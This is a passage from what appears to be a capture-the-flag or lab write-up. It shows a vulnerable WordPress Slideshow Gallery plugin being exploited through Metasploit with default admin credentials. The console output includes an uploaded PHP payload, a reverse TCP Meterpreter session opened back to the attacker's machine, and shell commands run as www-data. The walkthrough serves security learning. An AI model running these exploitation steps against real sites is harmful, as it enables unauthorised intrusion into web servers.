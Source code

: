 ```
 |      - https://www.rapid7.com/db/modules/exploit/unix/webapp/wp_slideshowgallery_upload
 |
 ```

Oh, look! It even has a metasploit module!

```
msf5 exploit(unix/webapp/wp_slideshowgallery_upload) > set wp_user admin                                                                                                         
wp_user => admin                                                                                                                                                                 
msf5 exploit(unix/webapp/wp_slideshowgallery_upload) > set wp_password admin                                                                                                     
wp_password => admin                                                                                                                                                             
msf5 exploit(unix/webapp/wp_slideshowgallery_upload) > exploit                                                                                                                   
                                                                                                                                                                                 
[*] Started reverse TCP handler on 192.168.167.137:4444                                                                                                                          
[*] Trying to login as admin                                                                                                                                                     
[*] Trying to upload payload                                                                                                                                                     
[*] Uploading payload                                                                                                                                                            
[*] Calling uploaded file aazpjbrr.php                                                                                                                                           
[*] Sending stage (38247 bytes) to 192.168.167.138                                                                                                                               
[*] Meterpreter session 1 opened (192.168.167.137:4444 -> 192.168.167.138:37182) at 2019-05-05 16:25:53 -0400                                                                    
[+] Deleted aazpjbrr.php                                                                                                                                                         
                                                                                                                                                                                 
                                                                                                                                                                                                                                                                                                            
meterpreter >                                                                                                                                                                    
meterpreter > getuid                                                                                                                                                             
Server username: www-data (33)                                                                                                                                                   
meterpreter > ls                                                                                                                                                                 
Listing: /var/www/html/weblog/wp-content/uploads/slideshow-gallery                                                                                                               
================================================================== 
```

My notes for `/weblog/` definitely include the word `yikes`. With the trivial effort to get a shell, I knew I was going to have to do something tricky to get the next step. Wrong. I made this part harder than it was because I missed an important detail when I tried to move too fast. Let me back up and explain properly before I repeat that mistake here!
